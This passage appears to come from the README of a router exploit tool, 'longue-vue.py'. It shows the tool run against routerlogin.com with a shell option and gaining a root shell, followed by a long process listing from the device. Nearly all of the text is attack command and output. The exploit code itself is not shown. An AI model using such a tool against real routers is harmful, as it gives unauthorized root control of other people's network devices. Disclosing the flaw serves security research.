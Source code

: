 Below is an example of where I get a remote shell on the device (`routerlogin.com` resolves to the device IP):

```
>python longue-vue.py --target routerlogin.com --shell
[...]
Getting a shell against routerlogin.com..
Waiting a few seconds before connecting..
Dropping in the shell, exit with ctrl+c
# /bin/ps
/bin/ps
  PID USER       VSZ STAT COMMAND
    1 root      1100 S    init
    2 root         0 SW<  [kthreadd]
    3 root         0 SW<  [migration/0]
    4 root         0 SW   [sirq-high/0]
    5 root         0 SW   [sirq-timer/0]
    6 root         0 SW   [sirq-net-tx/0]
    7 root         0 SW   [sirq-net-rx/0]
    8 root         0 SW   [sirq-block/0]
    9 root         0 SW   [sirq-tasklet/0]
   10 root         0 SW   [sirq-sched/0]
   11 root         0 SW   [sirq-hrtimer/0]
   12 root         0 SW   [sirq-rcu/0]
   13 root         0 SW<  [migration/1]
   14 root         0 SW   [sirq-high/1]
   15 root         0 SW   [sirq-timer/1]
   16 root         0 SW   [sirq-net-tx/1]
   17 root         0 SW   [sirq-net-rx/1]
   18 root         0 SW   [sirq-block/1]
   19 root         0 SW   [sirq-tasklet/1]
   20 root         0 SW   [sirq-sched/1]
   21 root         0 SW   [sirq-hrtimer/1]
   22 root         0 SW   [sirq-rcu/1]
   23 root         0 SW<  [events/0]
   24 root         0 SW<  [events/1]
   25 root         0 SW<  [khelper]
   28 root         0 SW<  [async/mgr]
   92 root         0 SW<  [kblockd/0]
   93 root         0 SW<  [kblockd/1]
  102 root         0 SW<  [khubd]
  120 root         0 SW<  [bpm]
  136 root         0 SW   [pdflush]
  137 root         0 SW   [pdflush]
  138 root         0 SWN  [kswapd0]
  140 root         0 SW<  [crypto/0]
  141 root         0 SW<  [crypto/1]
  198 root         0 SW<  [mtdblockd]
  246 root         0 SW   [board-timer]
  250 root         0 SW<  [linkwatch]
  306 root         0 SW   [kpAliveWatchdog]
  312 root         0 SW   [dsl0]
  321 root         0 SW   [bcmsw]
  322 root         0 SW   [bcmsw_timer]
  409 root      1500 S    /usr/sbin/swmdk
  411 root      1500 S    /usr/sbin/swmdk
  412 root      1500 S    /usr/sbin/swmdk
  417 root      1272 S    /sbin/klogd
  419 root       808 S    /usr/sbin/cmd_agent_ap
  421 root         0 SWN  [jffs2_gcd_mtd4]
  422 root         0 SWN  [jffs2_gcd_mtd3]
  423 root         0 SWN  [jffs2_gcd_mtd12]
  424 root         0 SWN  [jffs2_gcd_mtd11]
  425 root         0 SWN  [jffs2_gcd_mtd10]
```